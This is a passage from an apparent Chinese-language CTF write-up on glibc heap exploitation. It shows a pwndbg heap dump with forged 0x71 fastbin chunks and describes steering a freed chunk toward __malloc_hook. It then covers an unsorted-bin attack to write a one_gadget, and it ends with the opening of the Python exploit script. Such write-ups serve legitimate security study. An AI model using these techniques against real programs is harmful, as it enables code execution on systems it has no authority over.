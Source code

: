 

我們緊接着需要修正這0x71 FD freelist ，將其僞造成已經釋放的塊

```
pwndbg> x/40ag 0x555555757000
0x555555757000: 0x0     0x21
0x555555757010: 0x4141414141414141      0x4141414141414141
0x555555757020: 0x4141414141414141      0x71       <----------  free 0x71
0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>
0x555555757040: 0x4141414141414141      0x4141414141414141
0x555555757050: 0x4141414141414141      0x4141414141414141
0x555555757060: 0x4141414141414141      0x4141414141414141
0x555555757070: 0x4141414141414141      0x4141414141414141
0x555555757080: 0x4141414141414141      0x4141414141414141
0x555555757090: 0x4141414141414141      0x61
0x5555557570a0: 0x0     0x0
0x5555557570b0: 0x0     0x0
0x5555557570c0: 0x0     0x0
0x5555557570d0: 0x0     0x0
0x5555557570e0: 0x0     0x0
0x5555557570f0: 0xd0    0x71   <----------     free 0x71
0x555555757100: 0x0     0x0
0x555555757110: 0x0     0x0
0x555555757120: 0x0     0x0
0x555555757130: 0x0     0x0

```



```
libc : 0x7ffff7a23d28 ("malloc_hook")
```

這個時候我們的 FD 已經在 malloc hook 附近，爲之後的爆破做準備。

### 第二步

我們只需要通過 釋放一塊0x71大小的 chunk 就能完成 fix。



### 第三步

利用 unsortebin 的攻擊技巧，並使用編輯功能將 onegadet 寫入	。



## 分析 exp



分配 `3` 個 `chunk` ，在 `B + 0x78` 處設置 `p64(0x61)` ， 作用是 `fake size` ,用於後面 的 `fastbin attack`



```python
create(0x18,0) # 0x20
create(0xc8,1) # d0
create(0x65,2)  # 0x70

info("create 2 chunk, 0x20, 0xd8")
fake = "A"*0x68
fake += p64(0x61)  ## fake size
edit(1,fake)
info("fake")
```
